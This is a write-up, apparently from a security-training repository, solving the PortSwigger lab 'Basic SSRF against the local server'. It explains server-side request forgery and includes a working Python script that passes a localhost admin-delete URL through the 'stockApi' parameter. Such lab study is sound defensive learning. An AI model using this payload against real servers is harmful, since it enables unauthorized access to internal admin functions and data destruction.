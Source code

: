 ```yaml
---
title: Basic SSRF against the local server
tags:
  - web-app
  - ssrf
  - server
  - side
  - request
  - forgery
---
```


<a href="https://portswigger.net/web-security/ssrf/lab-basic-ssrf-against-localhost/">
1. Basic SSRF against the local server</a>

Server-side request forgery (SSRF) - we coerce the server into making a request
on our behalf to some endpoint. The endpoint will receive the request from the
server, not us, therefore we can abuse existing trust relationships between the
server and the target endpoint.

In this case, the server uses a stock API to check to see if an item is in
stock. How the server makes this request is transparent to the user - a POST
request is sent to the server with the API frontend URL contained in the
paramter "stockApi". The server proceeds to make a GET request to this stock
API.

We want to delete the user "carlos", but we don't have administrator access on
the server. We can, however, hit the /product/stock endpoint on this server,
allowing us to coerce the server into making a GET request to an arbitrary URL.
We make a POST request to the /product/stock endpoint on the server, passing the
parameter "stockApi" with the value
"http://localhost/admin/delete?username=carlos". The server proceeds to initiate
a GET request to itself, allowing us to abuse the existing trust relationship
and delete the user "carlos".

Solution:

```python
# usage:
# python3 1.py \
# --u https://0aaa00a7037819be80f76c960063008a.web-security-academy.net \
# --w carlos

from argparse import ArgumentParser

import requests


class Solution:
    def __init__(self, url: str, who: str) -> None:
        self.url = url.rstrip("/")
        self.who = who

    def solve(self) -> None:
        self.s = requests.Session()
        self.s.post(
            f"{self.url}/product/stock",
            data={"stockApi": f"http://localhost/admin/delete?username={self.who}"},
        )


def main():
    parser = ArgumentParser()
    parser.add_argument("--u", "--url", dest="url")
    parser.add_argument("--w", "--who", dest="who")
    args = parser.parse_args()
    s = Solution(args.url, args.who)
    s.solve()


if __name__ == "__main__":
    main()
```
